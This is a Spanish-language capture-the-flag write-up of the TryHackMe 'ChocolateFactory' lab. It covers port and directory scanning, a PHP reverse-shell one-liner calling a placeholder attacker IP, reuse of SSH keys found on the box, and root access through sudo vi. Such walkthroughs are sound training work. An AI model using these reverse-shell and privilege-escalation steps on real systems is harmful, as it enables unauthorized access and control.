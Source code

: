 ```yaml
---
title: "ChocolateFactory"
date: 2023-06-04 20:45:23 +0800
categories: [TryHackMe]
tags: [TryHackMe]
---
```


![alt text](/assets/img/posts/ChocolateFactoryIMG/image-18.png){: width="600"}

<p><center>WriteUp detallado explotando la máquina ChocolateFactory de la plataforma de TryHackMe.</center></p>

**Challenges:**
    
    1. Enter the key you found!

    2. What is Charlie's password?

    3. Change user to charlie

    4. Enter the user flag

    5. Enter the root flag


### Reconocimiento

Iniciamos haciendo un nmap scan:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.233.236 -oG allPorts
```

Vemos que hay una gran cantidad de `puertos abiertos` con distintos servicios pero no vemos nada interesante.
Intentamos conectarnos por ftp pero no tenemos user ni pass.

![Ports](/assets/img/posts/ChocolateFactoryIMG/image.png){: width="600"}

Esta es la interfaz de la página web

![Interfaz de la página web](/assets/img/posts/ChocolateFactoryIMG/image-1.png){: width="600"}

Viendo su código html de la página vemos que hace un acción en `validate.php` que mas adelante veremos que acá se encuentra la key 

![alt text](/assets/img/posts/ChocolateFactoryIMG/image-2.png){: width="600"}

Con la herramienta `gobuster` vamos a buscar directorios.

```bash
gobuster dir -u http://10.10.233.236/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,py,txt,sh -t 20
```

![alt text](/assets/img/posts/ChocolateFactoryIMG/image-3.png){: width="600"}

Nos dirigimos a esa ruta y vemos lo siguiente

![alt text](/assets/img/posts/ChocolateFactoryIMG/image-4.png){: width="600"}

Una interfaz donde podemos poner comandos y nos da respuesta, entonces aplicaremos un reverse shell.

Usamos una reverse shell para conectarnos y nos ponemos en escucha con netcat `nc -nlvp 443`

```php
php -r '$sock=fsockopen("ATTACKING-IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

![alt text](/assets/img/posts/ChocolateFactoryIMG/image-5.png){: width="600"}

Estamos dentro de la máquina

![alt text](/assets/img/posts/ChocolateFactoryIMG/image-6.png){: width="600"}

Ahora vamos a buscar en el directorio `/var/www/html/` la `key_rev_key` 

### 1.- Enter the key you found!

![alt text](/assets/img/posts/ChocolateFactoryIMG/image-11.png){: width="600"}

El archivo `teleport` y `teleport.pub` incluyen claves ssh que las usaremos para conectarnos como charlie

![alt text](/assets/img/posts/ChocolateFactoryIMG/image-7.png){: width="600"}

![alt text](/assets/img/posts/ChocolateFactoryIMG/image-8.png){: width="600"}

Copiamos toda la clave y la pasamos a nuestra máquina de atacante y le ponemos de nombre `id_rsa`.

> Podriamos usar *john* para la fuerza bruta y encontrar la contraseña pero por ahi no van los tiros de esta máquina pero siempre es bueno probar todas las maneras posibles para ver como podemos conseguir acceso.

Le damos permiso de lectura al archivo `id_rsa` donde pusimos la key ssh y nos conectamos a través de ssh.

```bash
ssh -i id_rsa charlie@10.10.233.236
```

Entramos a la máquina y vemos que somos el usuario charlie.

![alt text](/assets/img/posts/ChocolateFactoryIMG/image-10.png){: width="600"}

 Ahora tenemos que buscar en los archivos la contraseña de charlie, antes vimos que la página hace una acción que se encuentra en `validate.php` buscamos ahi para encontrar una contraseña que pueda estar en el código ya definida.

Y en efecto encontramos una contraseña en el código

### 2.- Change user to charlie

![alt text](/assets/img/posts/ChocolateFactoryIMG/image-12.png){: width="600"}

Ahora buscamos en el directorio de charlie y buscamos la flag de `user.txt`

### 4.- Enter the user flag

![alt text](/assets/img/posts/ChocolateFactoryIMG/image-9.png){: width="600"}

### Privilege Escalation

Primero vemos que archivos tienen permiso SUID 

```bash
find / -perm -4000 2>/dev/null
```

No encontramos nada relevante donde podemos abusar para escalar nuestro privilegio.

![alt text](/assets/img/posts/ChocolateFactoryIMG/image-14.png){: width="600"}

Siguiente vemos que archivos no necesitan ser root para correr con sudo y encontramos que el `/usr/bin/vi` podemos ejecutar

![alt text](/assets/img/posts/ChocolateFactoryIMG/image-13.png){: width="600"}

Entramos a [gtfobins](https://gtfobins.github.io/) y buscamos el comando que nos hará escalar privilegios al usuario root

![alt text](/assets/img/posts/ChocolateFactoryIMG/image-15.png){: width="600"}

Ejecutamos y listo somos root

![alt text](/assets/img/posts/ChocolateFactoryIMG/image-16.png){: width="600"}

En el directorio de root vemos que tenemos un archivo llamado `root.py` ejecutamos dicho archivo y nos pide una key. Es la misma key que encontramos al inicio en el directorio `/var/www/html`.

### 5.- Enter the root flag

![alt text](/assets/img/posts/ChocolateFactoryIMG/image-17.png){: width="600"}

¡¡Obtenemos una flag, al ejecutar el código de python!!

¡Ahora que tenemos todas nuestras respuestas, enviémoslas y hemos completado con éxito nuestro CTF!

Sigue intentándolo, sigue trabajando :)

¡Gracias por leer!

Feliz Hacking :D

¡Sígueme más para obtener más consejos y trucos! 🙏

```
Autor: rxsh
```